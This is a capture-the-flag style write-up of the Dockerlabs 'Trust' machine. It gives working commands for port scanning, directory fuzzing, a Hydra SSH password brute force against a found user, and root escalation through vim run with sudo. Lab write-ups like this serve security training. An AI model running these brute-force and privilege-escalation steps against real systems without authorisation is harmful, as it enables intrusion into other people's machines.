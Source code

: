 ```yaml
---
layout: single
title: Trust - Dockerlabs
excerpt: "This very easy machine required performing fuzzing to find hidden directories and obtain a user. Then, we used Hydra to brute force and get the SSH credentials. Finally, to escalate to root, we used the vim binary which had sudo permissions."
date: 2024-06-22
classes: wide
header:
  teaser: /assets/images/dockerlabs-trust/trust-logo.png
  teaser_home_page: true
  icon: /assets/images/dockerlabs.png
categories:
  - dockerlabs
  - very easy
tags:
  - linux
  - bruteforce
  - privileged vim
---
```

![](/assets/images/dockerlabs-trust/trust_logo.png)
First, we start by setting up the lab using the root account (It's important to ensure the file has execution permissions).

```
sudo ./auto_deploy.sh trust.tar 
```

![](/assets/images/dockerlabs-trust/trust-1.png)

Test connectivity.
```
ping -c 1 172.18.0.2
```

![](/assets/images/dockerlabs-trust/trust-2.png)
## Portscan
Perform an initial scan to see which ports are open
```
nmap -p- -sS --min-rate 5000 -vvv -Pn 172.18.0.2 
```

![](/assets/images/dockerlabs-trust/trust-3.png)

Conduct a more specific scan to detect the versions of the previously found open ports.
```
nmap -p22,80 -sCV 172.18.0.2
```

![](/assets/images/dockerlabs-trust/trust-4.png)

## Apache
We notice there is an active web service and start exploring it.

![](/assets/images/dockerlabs-trust/trust-5.png)

Since we don't get much information from there, we use gobuster to discover hidden directories, specifically looking for php and html files in this case.

```
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html
```

![](/assets/images/dockerlabs-trust/trust-6.png)

Gobuster reports a directory called secret.php, which we check and it reveals a potential user named mario.

![](/assets/images/dockerlabs-trust/trust-7.png)
## Bruteforce
Since port 22 is also open, we use Hydra to brute force the SSH login for the user mario.
```sh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

The results show that mario's password is chocolate.

![](/assets/images/dockerlabs-trust/trust-8.png)

We attempt to connect via SSH, and it works successfully.

![](/assets/images/dockerlabs-trust/trust-9.png)
## Privesc

To escalate privileges, we run the following command to see if there are any binaries that can be executed with sudo permissions.

```
sudo -l
```

We observe that we can execute vim with sudo permissions.

![](/assets/images/dockerlabs-trust/trust-10.png)

We open vim with sudo and create a shell, which will be created as root.
```
sudo vim
:!/bin/bash
```

![](/assets/images/dockerlabs-trust/trust-11.png)

![](/assets/images/dockerlabs-trust/trust-12.png)

After executing this last command, we are automatically authenticated as root, which we can verify by running the `whoami` command.
```
whoami
```

![](/assets/images/dockerlabs-trust/trust-13.png)
## pwned!
